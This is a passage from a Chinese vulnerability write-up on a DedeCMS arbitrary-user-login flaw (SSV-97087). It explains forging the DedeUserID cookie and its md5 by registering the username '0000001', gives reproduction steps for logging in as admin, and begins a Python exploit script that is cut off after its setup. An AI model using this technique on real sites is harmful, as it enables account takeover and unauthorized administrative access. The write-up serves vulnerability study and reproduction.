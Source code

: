 它不但读了cookie还验证了md5值。

这样，由于index.php中我们可以控制返回一个输入值和这个输入值经过服务器处理后的md5值。那么如果我们伪造DedUserID和它对应的MD5就行了。

最后一个问题，因为我们上面是通过用户名伪造ID的，用户名为字符串而ID为整数，但好在在构造用户类中将M\_ID
intval了一下\$this-\>M\_ID = intval(\$this-\>M\_ID);
那么这么说，如果我们想伪造ID为1的用户的Md5，我们只要在上面设置uid(用户名)为'000001'即可。

### 复现

#### 1、先从member/index.php中获取伪造的DedeUserID和它对于的md5

#### 2、使用它登录

访问member/index.php?uid=0000001并抓包(注意cookie中last\_vid值应该为空)。

![](/Users/aresx/Documents/VulWiki/.resource/【开启会员注册】(SSV-97087)DeDecms任意用户登录/media/rId28.png)

可以看到已经获取到了，拿去当做DeDeUserID

![](/Users/aresx/Documents/VulWiki/.resource/【开启会员注册】(SSV-97087)DeDecms任意用户登录/media/rId29.png)

可以看到，登陆了admin用户。

### python脚本

      # coding=utf-8

    import requests
    import re

    if __name__ == "__main__":
        dede_host = "http://127.0.0.1/"
        oldpwd = '123456'
        newpwd = "cnvdcnvd"
        s = requests.Session()

        if '系统关闭了会员功能' in requests.get(dede_host + 'member/reg_new.php').content:
            exit('The system has closed the member function .Can not attack !!!')
        else:
            print "The system opened the membership function, I wish you good luck  !!"

        headers = {"Referer": dede_host + "member/reg_new.php"}
        rs = s.get(dede_host + 'include/vdimgck.php').content
        file = open('1.jpg', "wb")
        file.write(rs)
        file.close()

        vdcode = raw_input("Please enter the registration verification code : ")

        userid = '0000001'
        uname = '0000001'
        userpwd = '123456'


